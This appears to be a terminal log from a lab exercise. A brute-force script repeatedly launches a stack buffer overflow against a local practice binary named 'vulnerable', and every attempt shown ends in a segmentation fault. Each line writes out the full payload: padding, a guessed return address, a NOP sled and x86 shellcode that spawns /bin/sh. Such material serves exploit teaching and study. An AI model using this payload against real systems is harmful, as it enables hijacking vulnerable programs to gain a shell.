 ``` {.example}
./brute_force.sh: line 11: 16293 Segmentation fault      (core dumped) ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
./brute_force.sh: line 10: usleep: command not found
6 sp bfaa49c0

./brute_force.sh: line 11: 16301 Segmentation fault      (core dumped) ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
./brute_force.sh: line 10: usleep: command not found
7 sp bfac9870

./brute_force.sh: line 11: 16309 Segmentation fault      (core dumped) ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
./brute_force.sh: line 10: usleep: command not found
8 sp bfa30420

./brute_force.sh: line 11: 16317 Segmentation fault      (core dumped) ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
./brute_force.sh: line 10: usleep: command not found
9 sp bfd87030

./brute_force.sh: line 11: 16325 Segmentation fault      (core dumped) ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
./brute_force.sh: line 10: usleep: command not found
10 sp bfa4cc00

./brute_force.sh: line 11: 16333 Segmentation fault      (core dumped) ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
./brute_force.sh: line 10: usleep: command not found
11 sp bfddb220

./brute_force.sh: line 11: 16341 Segmentation fault      (core dumped) ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
./brute_force.sh: line 10: usleep: command not found
12 sp bfddb220

./brute_force.sh: line 11: 16349 Segmentation fault      (core dumped) ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
./brute_force.sh: line 10: usleep: command not found
13 sp bfddb220

./brute_force.sh: line 11: 16357 Segmentation fault      (core dumped) ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
./brute_force.sh: line 10: usleep: command not found
14 sp bfddb220

./brute_force.sh: line 11: 16365 Segmentation fault      (core dumped) ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
./brute_force.sh: line 10: usleep: command not found
15 sp bfddb220

./brute_force.sh: line 11: 16373 Segmentation fault      (core dumped) ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
```